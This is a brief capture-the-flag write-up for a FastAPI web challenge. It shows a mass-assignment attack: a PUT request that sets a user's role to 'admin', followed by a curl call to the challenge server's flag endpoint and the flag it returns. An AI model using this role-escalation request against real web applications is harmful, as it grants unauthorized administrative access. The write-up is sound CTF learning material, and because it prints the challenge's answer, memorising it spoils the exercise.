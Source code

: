 This was a simple challenge on FastAPI. Which allow us to create a user,update a user and ask for a flag.

So after creating a user we update is account 
```bash
PUT /update/testuser HTTP/1.1
Content-Type: application/json

{
  "fname": "CTF",
  "lname": "Admin",
  "email": "admin@example.com",
  "gender": "male",
  "role": "admin"
}
```
Then we just hit the endpoint to get the flag
```bash
curl 'http://kashictf.iitbhucybersec.in:43401/flag/testuser'
{"message":"KashiCTF{m455_4551gnm3n7_ftw_tl22M5dUN}"}
```
